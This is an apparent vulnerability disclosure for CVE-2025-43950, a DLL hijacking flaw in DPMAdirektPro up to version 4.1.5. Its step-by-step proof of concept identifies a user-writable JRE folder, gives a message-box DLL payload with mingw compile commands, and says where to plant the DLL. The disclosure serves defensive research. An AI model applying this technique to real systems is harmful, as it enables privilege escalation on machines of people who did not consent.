

# CVE-2025-43950
DPMAdirektPro version 4.1.5 is vulnerable to DLL Hijacking. It happens by placing a malicious DLL in a directory (in the absence of a legitimate DLL), which is then loaded by the application instead of the legitimate DLL. This causes the malicious DLL to load with the same privileges as the application, thus causing a privilege escalation.

# Affected Product & Version
DPMAdirektPro <= 4.1.5

Reference: https://www.dpma.de/english/services/efiling/dpmadirekt/downloads/index.html

# PoC

**Step 1:** </br>
Launch Procmon and apply the filters below to monitor the DPMAdirektPro application for DLL hijacking issues. 

Result is </br>
Name Not Found </br>
The path ends with dll

**Step 2:** </br> 
Notice that the folder **C:\DPMAdirekt\client\jre\jre21\bin** allows complete control to the users. This means a low-privileged user could write into this folder.

**Step 3:** </br>
Create a malicious payload using the source code below and save it as **profapi.cpp**
````
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 MessageBox(NULL, TEXT("pwnd!"), TEXT("dll hijack poc!"), 0);
 return 0;
}
````

**Step 4:** </br>
Compile on a Linux machine using the below commands.
````
#install mingw
 sudo apt install mingw-w64

#x64
 x86_64-w64-mingw32-gcc -shared -o profapi.dll profapi.cpp
````


**Step 5:** </br>
Place the PoC **profapi.dll** in folder **C:\DPMAdirekt\client\jre\jre21\bin**

**Step 6:** </br>
Open DPMAdirektPro tool again and observe the dll execution.




# Credits
This vulnerability was discovered by Manjyot Singh of Henkel Cyber Security Team.

